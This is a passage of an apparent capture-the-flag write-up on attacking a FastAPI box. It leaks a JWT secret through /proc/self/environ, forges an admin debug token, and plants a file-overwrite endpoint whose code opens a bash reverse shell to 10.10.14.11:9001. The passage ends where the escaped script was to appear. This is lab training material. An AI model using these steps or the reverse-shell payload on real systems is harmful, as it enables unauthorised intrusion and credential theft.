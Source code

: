 ```
import asyncio\nimport os\n\nwith open('pid','w') as f:\n    f.write( str(os.getpid())  )\n\nfrom fastapi import FastAPI, APIRouter, Query, HTTPException, Request, Depends\nfrom fastapi_contrib.common.responses import UJSONResponse\nfrom fastapi import FastAPI, Depends, HTTPException, status\nfrom fastapi.security import HTTPBasic, HTTPBasicCredentials\nfrom fastapi.openapi.docs import get_swagger_ui_html\nfrom fastapi.openapi.utils import get_openapi\n\n\n\nfrom typing import Optional, Any\nfrom pathlib import Path\nfrom sqlalchemy.orm import Session\n\n\n\nfrom app.schemas.user import User\nfrom app.api.v1.api import api_router\nfrom app.core.config import settings\n\nfrom app.api import deps\nfrom app import crud\n\n\n\napp = FastAPI(title=\"UHC API Quals\", openapi_url=None, docs_url=None, redoc_url=None)\nroot_router = APIRouter(default_response_class=UJSONResponse)\n\n\n\n@app.get(\"/\", status_code=200)\ndef root():\n    \"\"\"\n    Root GET\n    \"\"\"\n    return {\"msg\": \"UHC Api v2.0\"}\n\n\n@app.get(\"/api\", status_code=200)\ndef root():\n    \"\"\"\n    /api endpoints\n    \"\"\"\n    return {\"endpoints\":\"/v1\"}\n\n\n@app.get(\"/api/v1\", status_code=200)\ndef root():\n    \"\"\"\n    /api/v1 endpoints\n    \"\"\"\n    return {\"endpoints\":[\"/user\",\"/admin\"]}\n\n\n\n@app.get(\"/docs\")\nasync def get_documentation(\n    current_user: User = Depends(deps.parse_token)\n    ):\n    return get_swagger_ui_html(openapi_url=\"/openapi.json\", title=\"docs\")\n\n@app.get(\"/openapi.json\")\nasync def openapi(\n    current_user: User = Depends(deps.parse_token)\n):\n    return get_openapi(title = \"FastAPI\", version=\"0.1.0\", routes=app.routes)\n\napp.include_router(api_router, prefix=settings.API_V1_STR)\napp.include_router(root_router)\n\n\ndef start():\n    import uvicorn\n\n    uvicorn.run(app, host=\"0.0.0.0\", port=80, log_level=\"debug\")\n\nif __name__ == \"__main__\":\n    # Use this for debugging purposes only\n    import uvicorn\n\n    uvicorn.run(app, host=\"0.0.0.0\", port=80, log_level=\"debug\")\n
```
- We can not write file because it is asking for a debug key (just like the first backend box)
- This line in the main.py app could help us `app.core.config import settings`
- Let's try to see `/home/htb/app/core/config.py`  
![image](https://user-images.githubusercontent.com/96747355/168454341-3a9307ef-b9b6-40c0-a7cd-b3fabebcd9a8.png)  
- we apply changes and fetch it  
![image](https://user-images.githubusercontent.com/96747355/168454355-48636377-5d66-4967-aaa4-84226af2d8d0.png)  
- And we see in the settings that it gets it's secret from an env var `JWT_SECRET: str = os.environ['API_KEY']`  
- We need to get the `/proc/self/environ`  
![image](https://user-images.githubusercontent.com/96747355/168485600-e4fb8e31-d235-41ac-90c8-0e65f3d12e4f.png)  
- We have the private key: `API_KEY=68b329da9893e34099c7d8ad5cb9c940`
- Now we just need to modify our token on jwt.io with the private key and add the debug to true. Let's take the token and paste it in there and make the changes  
![image](https://user-images.githubusercontent.com/96747355/168486074-c4f942bb-26f5-4a0e-9dcc-eca44c83fdb8.png)  
- It works!  
![image](https://user-images.githubusercontent.com/96747355/168486380-171a8f9f-6c5e-4b1f-94d7-b7a074ee9787.png)  
- At this point we could try to overwrite a script in order to make an endpoint to send a reverse shell
- Let's fetch user.py (we can use ippsec's script from the bonus section below to fetch it) `./getfile.sh app/api/v1/endpoints/user.py > user.py`
- We can add this in the end of user.py:
```
@router.delete("/ShellMe", status_code=200)
def fetch_shell() -> Any:
    """
    Sends a reverse shell
    """
    import os
    os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'")
    return
```
- Now we have to take the whole script and escape it in json we can do this with [this website](https://www.freeformatter.com/json-escape.html#ad-output) and we get our new script:
```
```